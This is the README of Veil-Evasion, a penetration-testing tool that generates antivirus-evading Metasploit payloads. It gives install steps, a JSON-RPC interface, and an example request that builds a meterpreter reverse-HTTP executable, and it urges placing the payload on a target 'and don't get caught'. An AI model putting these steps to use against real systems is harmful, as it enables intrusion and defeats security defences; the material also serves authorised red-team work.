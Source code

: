 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

> NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `setup.sh -c` on Kali x86.

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd veil-Evasion/
cd setup
setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/veil/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch Veil-Evasion you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

On the client side, you will need to run a client program. This can be a custom script or can be as simple as Netcat. The RPC server implements JSON-RPC. This is a good reference for interpreting requests and responses for JSON-RPC: http://json-rpc.org/wiki/specification

The RPC request format is as follows:

```
    method="version"            -   return the current Veil-Evasion version number
    method="payloads"           -   return all the currently loaded payloads
    method="payload_options"
        params="payload_name"   -   return the options for the specified payload
    method="generate"
        params=["payload=X",   
                "outputbase=Y"
                "overwrite=Z",
                "msfvenom=...",
                "LHOST=blah]     -   generate the specified payload with the given options and returns the path of the generated executable
```

This is a simple example of working with Veil-Evasion using Netcat:


```
root@kali:~# nc 127.0.0.1 4242
{"method":"version","params":[],"id":0}
```

And the server response:


```
{"id":0,"result":"2.21.4","error":null}

```

An example of a client program can be found here: http://github.com/miligulmohar/python-symmetric-jsonrpc/blob/master/examples/client.py

Note: The port for Veil-Evasion is 4242. This must be changed in client.py in order to work with it.

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/

An example of generating a payload:

```
root@kali:~# nc 127.0.0.1 4242
{"method":"generate","params":["payload=c/meterpreter/rev_http","outputbase=payloadName","LHOST=192.168.1.11","LPORT=2121","pwnstaller=False"],"id":1"}
```

And the server response:

```
{"id":8,"result":"/usr/share/veil-output/compiled/payloadName.exe","error":null}
```

> NOTE: If there is no id specified in the request, Veil-Evasion will shut down. That being said, you can make as many valid requests as you would like until Veil-Evasion shuts down.

To shut down the RPC server run:

`./Veil-Evasion --rpcshutdown`
